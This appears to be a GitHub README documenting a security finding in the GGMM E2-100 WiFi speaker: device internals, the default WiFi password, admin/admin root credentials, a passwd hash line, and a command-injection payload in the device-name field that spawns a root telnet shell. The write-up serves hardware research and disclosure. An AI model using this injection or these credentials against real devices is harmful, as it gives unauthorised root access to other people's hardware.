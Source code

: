 GGMM E2-100 Speaker
===================

## About
A cheap AirPlay compatible WiFi speaker. The device is running a kernel in version 2.6.36 and is using a buildroot based userland. The root user mapped to "admin" and the device is using a read-only rootfs. More details below:

```
# cat /proc/cpuinfo
system type             : MT7628
processor               : 0
cpu model               : MIPS 24Kc V5.5
BogoMIPS                : 386.04
wait instruction        : yes
microsecond timers      : yes
tlb_entries             : 32
extra interrupt vector  : yes
hardware watchpoint     : yes, count: 4, address/irw mask: [0x0000, 0x0ff8, 0x0ff8, 0x0ff8]
ASEs implemented        : mips16 dsp
shadow register sets    : 1
core                    : 0
VCED exceptions         : not available
VCEI exceptions         : not available
```

```
# cat passwd
admin:L4lwAM7zGEySM:0:0:Adminstrator:/:/bin/sh
```

```
# mount
rootfs on / type rootfs (rw)
/dev/root on / type squashfs (ro,relatime)
proc on /proc type proc (rw,relatime)
none on /var type ramfs (rw,relatime)
none on /etc type ramfs (rw,relatime)
none on /tmp type ramfs (rw,relatime)
none on /media type ramfs (rw,relatime)
none on /sys type sysfs (rw,relatime)
none on /dev/pts type devpts (rw,relatime,mode=600)
mdev on /dev type ramfs (rw,relatime)
devpts on /dev/pts type devpts (rw,relatime,mode=600)
/dev/mtdblock8 on /mnt type jffs2 (rw,relatime)
/dev/mtdblock9 on /vendor type jffs2 (rw,relatime)
/dev/mtdblock9 on /tmp/web type jffs2 (rw,relatime)
```

```
# df
Filesystem           1k-blocks      Used Available Use% Mounted on
rootfs                    5632      5632         0 100% /
/dev/root                 5632      5632         0 100% /
/dev/mtdblock8             512       196       316  38% /mnt
/dev/mtdblock9            6144       732      5412  12% /vendor
/dev/mtdblock9            6144       732      5412  12% /tmp/web
```

It seems like the device is using the ralink NVRAM as its main storage for user values. Several scripts were found to reset those values inside and replacing some of its default. Most of the scripts are using the `nvram_get` utility in order to obtain a specific entry of the NVRAM. The command `ralink_init show 2860` basically shows every entry of the ralink 2860 chip, where `ralink_init clear 2860` will clear all of its content. In order to get a single value, `nvram_get SSID1` can be used or `nvram_set SSID1 "bathroom"` to set a value.

## Motivation
It turned out, whenever I tried to set the devicename to "bathroom", it started to append a random string to the end of the name, so it became `bathroomssConnectEm` and something along those lines. Frustrated by that, I started playing around with the devicename. It turned out very quickly, it doesn't strip anything I write into the field, I was able to use whitespaces, linebreaks and all that.

- Problem: Device name gets overwritten/appended by other strings
- Observation: Device name accepts all inputs and looks wonky
- Result: Obvious...

## Remote Shell
By default, the speaker comes in AP mode:

    SSID: GGMM_E2_XXX
    Password: ggmm123456

The device is running a dnsmasq service that will provide you a `10.10.10.x` IP address,
the speaker itself can be found at 10.10.10.254. On port 80 you will be greeted by a webfrontend.
Since the webfrontend is provided by cgi-scripts running on a lighttpd, it's clear to play around with some parsing issues first.
Fortunately the only input field you have - the device name - is exploitable.

Knowing this, obtaining a remote shell is as simple as setting the hostname to:

    abc`telnetd -l /bin/sh`

It's required to either reboot the device or putting it into another WiFi to get our command executed. Since telnetd is already enabled by default in the shipped busybox version, you'll be greeted by a beautiful telnet shell when connecting.
The device uses `admin` as the default root user, the password is `admin` aswell.
